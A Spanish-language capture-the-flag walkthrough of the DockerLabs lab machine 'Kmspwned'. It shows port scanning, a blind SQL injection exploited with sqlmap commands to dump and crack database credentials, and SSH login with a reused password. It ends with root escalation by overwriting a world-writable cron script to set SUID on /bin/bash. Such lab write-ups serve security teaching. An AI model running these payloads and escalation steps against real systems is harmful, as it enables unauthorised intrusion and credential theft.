







# Kmspwned DockerLabs (Easy)

# Contexto de la maquina
## Trayectoria Kmspwned

<figure><figcaption></figcaption></figure>

## Descripción

**Kmspwned** es una máquina Linux de dificultad **Easy** en DockerLabs que simula un entorno empresarial de hosting y gestión de dominios (**ServiCloud**). La cadena de compromiso combina la explotación de una **inyección SQL ciega** en la API de verificación de extensiones de dominio para extraer credenciales de la base de datos, acceso SSH con las credenciales obtenidas y escalada a `root` mediante la modificación de un script de backup ejecutado por `cron` con permisos de escritura abiertos para todos.

**Objetivo**

- Identificar y explotar la inyección SQL en el endpoint de verificación de extensiones.
- Extraer credenciales de la base de datos con SQLMap.
- Acceder por SSH como `carlos`.
- Escalar a `root` abusando de un crontab que ejecuta un script sobrescribible.

**Tipo de máquina**

- Plataforma: DockerLabs
- Sistema operativo: Linux (Debian)
- Categoría principal: Web / Linux Privilege Escalation
- Componentes involucrados:
    - Inyección SQL ciega (boolean-based blind) en API JSON.
    - SQLMap con tamper `space2comment` y volcado completo.
    - Crackeo de hashes MD5 integrado en SQLMap.
    - Reutilización de credenciales entre aplicación y SSH.
    - Script de backup con permisos `rwxrwxrwx` ejecutado como `root` por cron.
    - Escalada mediante SUID en bash.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` lo pasamos al entorno de trabajo y lo descomprimimos:

```shell
unzip kmspwned.zip
```

Montamos la máquina con el script de despliegue automático de DockerLabs:

```shell
bash auto_deploy.sh kmspwned.tar
```

Respuesta:

```
Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Cuando terminemos le damos a `Ctrl+C` para eliminar el contenedor y no dejar archivos residuales.
# Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-01 10:00 +0000
Nmap scan report for 172.17.0.2
Host is up (0.000036s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u7 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.67 ((Debian))
|_http-title: ServiCloud — Dominios, Hosting y Aplicaciones
|_http-server-header: Apache/2.4.67 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Solo dos puertos:

- **Puerto 22** → SSH (OpenSSH 8.4p1), de momento no explotable directamente.
- **Puerto 80** → HTTP (Apache 2.4.67), con una aplicación web de gestión de dominios y hosting llamada **ServiCloud**.
## Enumeración web

Accedemos a la aplicación:

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Vemos una página de servicios de hosting. Creamos una cuenta e iniciamos sesión:

<figure><figcaption></figcaption></figure>
## Identificación del campo vulnerable

Una vez dentro, la aplicación tiene un campo para verificar la disponibilidad de extensiones de dominio. Introducimos una extensión de ejemplo para ver cómo funciona:

<figure><figcaption></figcaption></figure>

La respuesta indica que la consulta se procesa contra una base de datos. Probamos payloads de inyección SQL en ese campo. Con el clásico `' OR 1=1-- -` obtenemos un comportamiento diferente al esperado:

<figure><figcaption></figcaption></figure>

El campo es vulnerable a **SQL Injection**. Para confirmar el endpoint exacto donde se envía la petición, abrimos las DevTools del navegador en la pestaña `Network` y revisamos la petición al enviar el formulario:

<figure><figcaption></figcaption></figure>

La petición va contra `/lib/kms_api.php` con un cuerpo JSON. Copiamos la petición en formato `curl` para pasársela a SQLMap.
# Escalate user carlos

<figure><figcaption></figcaption></figure>

## SQLi — Extracción de bases de datos con SQLMap

Confirmada la vulnerabilidad, usamos **SQLMap** para automatizar la explotación. Usamos el tamper `space2comment` (sustituye espacios por comentarios SQL `/**/`) para evadir posibles filtros básicos, y `--level=5 --risk=3` para ampliar los tipos de payloads probados:

```bash
sqlmap 'http://172.17.0.2/lib/kms_api.php' \
  -X POST \
  -H 'Content-Type: application/json' \
  -H 'Referer: http://172.17.0.2/panel.php' \
  -H 'Cookie: PHPSESSID=g3nplrte9vbdqctp8pr7dg2f7i' \
  --data-raw $'{"accion":"buscar_extension","params":{"extension":"\' OR 1=1-- -"}}' \
  --batch --dbs --tamper=space2comment --level=5 --risk=3
```

Respuesta:

```
Parameter: JSON extension ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause

back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)

available databases [2]:
[*] information_schema
[*] servicloud_erp
```

La inyección es de tipo **boolean-based blind**: el servidor no devuelve los datos directamente, pero sí responde diferente según si la condición es verdadera o falsa, permitiendo extraer la base de datos bit a bit. SQLMap identifica la base de datos interesante: `servicloud_erp`.
## Volcado completo de la base de datos

<figure><figcaption></figcaption></figure>

Lanzamos el volcado completo para extraer todo el contenido:

```bash
sqlmap 'http://172.17.0.2/lib/kms_api.php' \
  -X POST \
  -H 'Content-Type: application/json' \
  -H 'Cookie: PHPSESSID=g3nplrte9vbdqctp8pr7dg2f7i' \
  --data-raw $'{"accion":"buscar_extension","params":{"extension":"\' OR 1=1-- -"}}' \
  --batch --dump-all
```

Del extenso output extraemos los hallazgos más relevantes:

**Tabla `sc_notas` — información interna:**
```
| El panel de administracion esta en /admin/. Credenciales en la base de datos. | carlos |
| Script de backup en /opt/backup.sh                                            | admin  |
```

Dos pistas muy útiles: existe un panel de administración en `/admin/` y hay un script de backup en `/opt/backup.sh`.

**Tabla `sc_flags`:**
```
| flag{sqli_t1m3_blind_pwn3d} | flag_usuario |
| flag{adm1n_pan3l_rce_0wn3d} | flag_admin   |
```

**Tabla `sc_usuarios` — credenciales crackeadas por SQLMap:**

SQLMap crackea automáticamente los hashes MD5 usando su diccionario integrado, ya que MD5 sin salt es trivialmente reversible:

```
| admin  | c378985d629e99a4e86213db0cd5e70d (chocolate) |
| carlos | 7c6a180b36896a0a8c02787eeafb0e4c (password1)  |
| ana    | b33e0dcc9e2d7a1649d96831260b5698 (ana1234)    |
```
## SSH (carlos)

Las credenciales del panel web no funcionan para el login de la aplicación (probablemente hay otra capa de autenticación). Sin embargo, en entornos donde los usuarios reutilizan contraseñas, es habitual que la misma contraseña sirva para acceso SSH:

```bash
ssh carlos@<IP>
# Contraseña: password1
```

Respuesta:

```
carlos@4c726c2e49aa:~$ whoami
carlos
```

Funciona. Leemos la flag del usuario:

> user.txt

```
flag{l4t3r4l_mov3m3nt_ssh_pwn3d}
```
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## Análisis de archivos en el home de carlos

En el home de `carlos` hay una nota dejada por `root`:

```bash
cat ~/notas.txt
```

Respuesta:

```
Recordatorio: revisar permisos del script de backup en /opt/backup.sh
```

La nota menciona explícitamente los permisos del script. Verifiquemos:

```bash
ls -la /opt/backup.sh
```

Respuesta:

```
-rwxrwxrwx 1 root root 157 Jul  8 17:13 backup.sh
```

Los permisos `rwxrwxrwx` son extremadamente peligrosos: **cualquier usuario del sistema puede leer, escribir y ejecutar este archivo**, independientemente de que el propietario sea `root`.
## Verificación del crontab

Leemos el script para entender qué hace:

```bash
cat /opt/backup.sh
```

Respuesta:

```bash
#!/bin/bash
# Copia de seguridad diaria
tar -czf /tmp/backup_$(date +%Y%m%d).tar.gz /var/www/html/ 2>/dev/null
echo "Backup: $(date)" >> /var/log/backup.log
```

Nada peligroso en sí mismo. El problema real es quién lo ejecuta y cuándo. Revisamos el crontab del sistema:

```bash
cat /etc/crontab
```

Info:

```
* * * * * root /opt/backup.sh
```

La línea `* * * * * root /opt/backup.sh` significa que el script se ejecuta **como `root` cada minuto**. Combinado con los permisos `rwxrwxrwx`, esto es una escalada de privilegios directa: podemos sobrescribir el contenido del script y nuestro código se ejecutará como `root` en el siguiente ciclo.
## Inyección del payload y escalada a root

Reemplazamos el contenido del script por un payload que activa el bit SUID en `/bin/bash`. Esto hace que bash se ejecute con los privilegios de su propietario (`root`) independientemente de quién lo lance:

```bash
echo '#!/bin/bash
chmod u+s /bin/bash' > /opt/backup.sh
```

Esperamos un minuto a que cron ejecute el script y verificamos:

```bash
ls -la /bin/bash
```

Respuesta:

```
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

El bit SUID está activo. Escalamos a `root` con el flag `-p`, que indica a bash que preserve los privilegios del propietario del binario:

```bash
bash -p
```

Respuesta:

```
bash-5.1# whoami
root
```

Ya somos `root`. Leemos la flag final:

> root.txt


```
flag{r00t_cr0n_job_3sc4l4t10n_pwn3d}
```

